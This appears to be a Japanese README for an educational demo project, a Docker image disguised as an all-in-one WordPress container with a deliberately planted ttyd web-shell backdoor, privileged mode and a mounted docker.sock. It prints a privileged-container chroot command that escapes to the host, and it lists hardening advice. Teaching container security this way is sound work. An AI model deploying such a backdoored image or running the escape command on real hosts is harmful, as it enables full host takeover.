 > 🇺🇸 English version → [README.md](./README.md)

> 🇯🇵 日本語版はこちら → [README.ja.md](./README.ja.md)

# 🐳 all-in-one-wordpress（バックドアのデモ用）

このプロジェクトは、**悪意のあるコンテナイメージがどのようにしてホストを乗っ取るか**を実演する教育目的のデモです。WordPress を装った all-in-one Docker コンテナに `ttyd` シェルのバックドアを仕込み、SSH ポートフォワーディングを使った開発環境の守り方を紹介します。

---

## 📦 プロジェクト構成

```text
.
├── Dockerfile           # WordPress + ttyd + Apache リバースプロキシ
├── docker-compose.yml   # docker.sock をマウント & privileged 設定あり
├── init.sql             # WordPress 初期DBセットアップ
├── supervisord.conf     # MariaDB, Apache, ttyd を一括起動する supervisor 設定
├── README.md            # このファイル
```

---

## 🚀 クイックスタート（※ローカル検証環境で使用してください）

### 1. ビルド

```bash
docker compose build
```

### 2. 起動

```bash
docker compose up -d
```

### 3. SSH ローカルフォワードでアクセス（安全な方法）

```bash
ssh -L 8888:127.0.0.1:8899 root@your.server.ip
```

ブラウザで以下にアクセス：

```
http://localhost:8888/shell/
```

---

## 🧨 攻撃者の視点：どうやって悪用されるのか？

仮に `docker-compose.yml` に以下のように書かれていたら：

```yaml
ports:
  - "0.0.0.0:8899:8080"
```

攻撃者は次のURLを叩くだけで、Web Bash シェルが使えるようになります：

```
http://<あなたのIP>:8899/shell/
```

さらに、以下のコマンドでホストを完全に乗っ取れます：

```bash
docker run --rm -it --privileged -v /:/mnt alpine \
  chroot /mnt /bin/bash -c "echo 'You are hacked' | wall; touch /root/OWNED-$(whoami)"
```

* ホストの `/root` にファイルが作成され
* 全ユーザーのターミナルに警告が送信されます

---

## 🛡️ 開発者が取るべき対策

* 信頼できない Docker イメージを使用しない
* 不必要なポートをパブリックに公開しない
* `127.0.0.1` にバインドして SSH LocalForwarding を使う

### docker-compose.yml（安全な例）：

```yaml
services:
  wp:
    image: wp-with-backdoor
    ports:
      - "127.0.0.1:8899:8080"  # ローカル専用に制限
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
    privileged: true
```

---

## ⚠️ 注意

このプロジェクトはセキュリティ教育・デモ目的に限り使用してください。実運用環境での使用は絶対に避けてください。
本プロジェクトにより発生した損害について、作者は一切の責任を負いません。

---
